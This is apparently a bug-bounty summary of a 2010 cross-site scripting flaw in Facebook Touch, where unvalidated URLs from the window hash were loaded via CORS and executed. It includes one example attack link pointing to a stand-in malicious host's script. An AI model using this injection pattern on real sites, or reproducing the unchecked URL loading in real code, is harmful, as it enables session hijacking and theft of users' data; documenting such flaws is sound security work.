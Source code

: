 # Facebook XSS via Cross-Origin Resource Sharing

**Target**: Facebook

**Reported on**: Unspecified

**Bug Type**: XSS

**Severity**: High

**Report URL**: https://maustin.net/articles/2010-07/facebook_html5

## Summary
A security researcher discovered a serious business logic flaw in Facebook Touch's use of HTML5 and Cross-Origin Resource Sharing (CORS) in 2010. The mobile interface dynamically loaded URLs via AJAX based on the window hash, and failed to restrict these URLs to Facebook-owned domains. As a result, attackers could inject external URLs that were loaded and executed client-side due to CORS, enabling cross-site scripting (XSS). This allowed attackers to run arbitrary JavaScript in a user's session, potentially exposing private data, sending messages, or escalating privileges. The vulnerability was client-side and left no server traces. Once reported, Facebook fixed the issue within a day by implementing client-side URL origin validation.

Key points:
- The bug exploited HTML5 CORS combined with unsafe dynamic AJAX content loading.
- Attackers could craft links like `http://touch.facebook.com/#http://malicious.com/exploit.js`.
- Malicious scripts could control the user's session and interact with Facebook on the user's behalf.
- The underlying issue was not validating URL origins in JavaScript, an example of weak business logic in new web technology adoption.

_This summary was partly generated by AI_

## Bounty received ($)
Unspecified

## References
- https://maustin.net/articles/2010-07/facebook_html5
## Tags
- business-logic
- api
- cors
- xss
- client-side
- html5
- validation
